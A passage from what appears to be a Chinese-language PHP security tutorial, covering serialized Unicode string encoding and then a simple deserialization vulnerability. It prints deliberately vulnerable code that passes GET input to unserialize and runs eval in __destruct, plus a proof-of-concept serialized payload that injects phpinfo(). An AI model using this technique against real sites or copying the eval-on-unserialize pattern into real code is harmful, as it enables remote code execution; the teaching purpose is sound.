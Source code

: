     *   这里 `<length>` 是指原 Unicode String 的长度，而不是 `<unicode string> `的长度，因为` <unicode string>` 是经过编码以后的字节流了。  

        `<length> `指的就是字符单位数，而不是字符数  

        Unicode String 中采用的是 UTF16 编码，这种编码方式使用 16 位来表示一个字符的，但是并不是所有的都是可以用 16 位表示的，因此有些字符需要两个 16 位来表示一个字符。在 UTF16 编码中，16 位字符算作一个字符单位。Unicode String 中字符数并不总是等于字符单位数

    *   `<unicode string>`的编码规则  

        对于编码小于 128 的字符（但不包括 \），按照单个字节写入，对于大于 128 的字符和 \ 字符，则转化为 16 进制编码的字符串，以 \ 作为开头，后面四个字节分别是这个字符单位的 16 进制编码，顺序按照由高位到低位排列，也就是第 16-13 位所对应的16进制数字字符（abcdef 这几个字母是小写）作为第一个字节，第 12-9 位作为第二个字节，第 8-5 位作为第三个字节，最后的第 4-1 位作为第四个字节。

#### 一个简单的反序列化漏洞

> php 的序列化漏洞就是我们修改的数据在反序列化的过程中会被传入到危险函数中，
>
> 反序列化过程会执行`__wakeup()`和`__destruct()`函数，因此最理想的情况就是一些漏洞/危害代码在`__wakeup()` 或`__destruct()`中，比如命令执行的函数，或者文件上传的函数。

存在漏洞的代码：

```php
<?php
class test{
   private $flag;
   function __destruct(){
   eval($this->flag);
   }
};
$get = $_GET["test"];
echo("$get");
$object = unserialize($get);
?>
```

如果直接输出到文件
*   `O:4:"test":1:{s:10:"testflag";s:10:"phpinfo();";}`    如果是数字的变量，`i:100`不用加长度      
*   `O:<class_name_length>:"<class_name>":<number_of_properties>:{<properties>      以分号间隔}`
*   写在这里面的数据不能用额外的空格来分割。而且最后也要用`；`结尾

-   对不同类型的变量，会用不同的形式，详细见上文的对象序列化(**php7版本不验证变量的修饰符，所以我们可以直接把private，protect改成public就行**)


- 利用poc(输出成字符，然后对于\x00，转换成%00)

    ```php
    <?php
    class test{
        private $flag="phpinfo();";
    	function __destruct(){
    		eval($this->flag);
    		}
    };
    $object=new test();
    # $object->test="phpinfo();";
    $data=serialize($object);  #返回的是字符串
    file_put_contents('serialize.txt',$data);
    $strlen = strlen($data);
    $a=urlencode($data); #编码特殊字符
    echo($a);
    ?>
    ```
